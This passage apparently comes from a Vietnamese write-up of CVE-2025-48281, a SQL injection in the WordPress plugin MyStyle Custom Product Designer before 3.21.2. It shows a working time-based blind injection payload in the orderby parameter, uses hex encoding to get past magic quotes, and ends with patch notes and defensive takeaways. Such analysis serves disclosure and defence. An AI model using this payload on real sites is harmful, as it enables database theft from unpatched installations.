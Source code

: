### Get First Letter of Database Name
Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì gần như toàn bộ data đều dump được.

Gửi request với **SQLi payload**:

```http
GET /designs/?orderby=IF(SUBSTRING(SCHEMA(),1,1)=0x77,SLEEP(5),1) HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

Sử dụng `SUBSTRING()` để lấy ký tự đầu tiên của **database name**, `IF()` trả về `SLEEP(5)` nếu ký tự đó là `0x77`('w')

Sử dụng hex encoding `w` thành `0x77` vì `orderby` được lấy từ **GET** request trong nên bị escape bởi [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) trong WordPress

👉 Dựa trên thời gian phản hồi => kí tự đầu tiên đúng là `w`.

---

## Conclusion
Lỗ hổng **CVE-2025-48281** trong plugin WordPress **MyStyle Custom Product Designer** trước phiên bản **3.21.2** xuất phát từ việc truyền trực tiếp input từ người dùng vào SQL query mà không có biện pháp kiểm soát chặt chẽ dẫn đến lỗ hổng SQL Injection.

Bản vá chính thức đã triển khai white list, giúp đảm bảo dữ liệu đầu vào được kiểm soát và an toàn hơn.

**Key takeaways**:
- Kiểm soát kỹ input từ người dùng.
- Luôn sử dụng `$wpdb->prepare()` khi làm việc với database trong WordPress để tránh SQL Injection.
- Thường xuyên cập nhật plugin và kiểm tra bảo mật để tránh trở thành mục tiêu tấn công.

---

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress MyStyle Custom Product Designer Plugin <= 3.21.1 is vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/mystyle-custom-product-designer/vulnerability/wordpress-mystyle-custom-product-designer-3-21-1-sql-injection-vulnerability)
